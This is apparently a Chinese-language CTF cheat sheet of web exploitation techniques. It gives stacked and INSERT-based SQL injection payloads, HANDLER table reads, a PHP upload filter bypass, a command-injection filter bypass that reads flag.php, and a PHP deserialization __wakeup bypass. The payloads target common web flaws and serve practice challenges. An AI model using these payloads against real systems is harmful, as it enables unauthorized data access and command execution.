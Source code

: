 #### sql注入
##### 1、堆叠注入
```
例题: [随便注]
/?inject=1';show databases; --+

/?inject=1';show tables; --+

/*获得两个表名
1919810931114514
words
*/

/?inject=1';show columns from `words`; --+

/*
words里面：id data
1919810931114514里面：flag
*/

推断查询语句(inject=1的输出)：
select id,data from `words` where id='$id'

// 修改表名
rename tables `words` to `haha`;
rename tables `1919810931114514` to `words`;

// 修改字段类型及名称;在change关键字之后，紧跟着的是你要修改的字段名，然后指定新字段名及类型
alter table `words` change `flag` `id` varchar(100);


/?inject=1' or 1 --+
```
##### 2、insert语句
```
正常插入语句：
insert article value('aaa', '111', '111', 'a')
2、3为文章标题和内容，因为插入语句会自动加上''，因此，得闭合'并增加一个插入点
```
```
sql注入语句：1', (select database()), 'a'), ('1', '1
插入成功后显示：insert article value('aaa', (select database()), 'a'), ('1','1', '', 'a')
```
##### 3、handler语句
```
// 此方法可以不需要select语句即可查看表内的内容
HANDLER `table_name`;
HANDLER `table_name` READ FIRST;	// 相当于一个指针，指向表的第一个数据
HANDLER `table_name` CLOSE;
e.g. [GYCTF2020]Blacklist1
```

#### 文件上传
##### 1、上传文件，发现后台检测了文件内容包含<?，则可以通过一下方法绕过
```javascript
<script language="php">
    //中间写php代码
<srcipt>
```

#### 命令执行
##### 1、在获取所需要的文件时，假如屏蔽了文件名(e.g.flag.php屏蔽了flag)
```
ping 127.0.0.1;a=g;c\a\t$IFS$fla$a.php(同时屏蔽了空格和单引号)
例题:[GXYCTF2019]Ping Ping Ping
```

#### 序列化和反序列化
##### 1、遇到对private的序列化不能直接复制序列化结果
```php
#例题:Web_php_unserialize

<?php
class Demo { 
    private $file = 'index.php';
    public function __construct($file) { 
        $this->file = $file; 
    }
    function __destruct() { 
        echo @highlight_file($this->file, true); 
    }
    function __wakeup() { 
        if ($this->file != 'index.php') { 
            //the secret is in the fl4g.php
            $this->file = 'index.php'; 
        } 
    } 
}
$a = new Demo('fl4g.php');
$a_1 = serialize($a);
echo $a_1 . "</br>";
$a_1 = str_replace("O:4", "O:+4", $a_1);
echo $a_1 . "</br>";
$a_1 = str_replace("1:", "2:", $a_1);
echo $a_1 . "</br>";
echo base64_encode($a_1)."<br/>";

?> 
```

#### 部分编码
```
正常结尾带着==的是base64编码
url编码：
	%3d	---- =
	%27	---- '
	%5c	---- \
	%20 ---- 空格
```

#### 修改DNS解析记录
```
C:/Windows/System32/drivers/etc/hosts
最后加一条:	ip地址 网站域名
在访问域名的时候优先解析ip地址
```
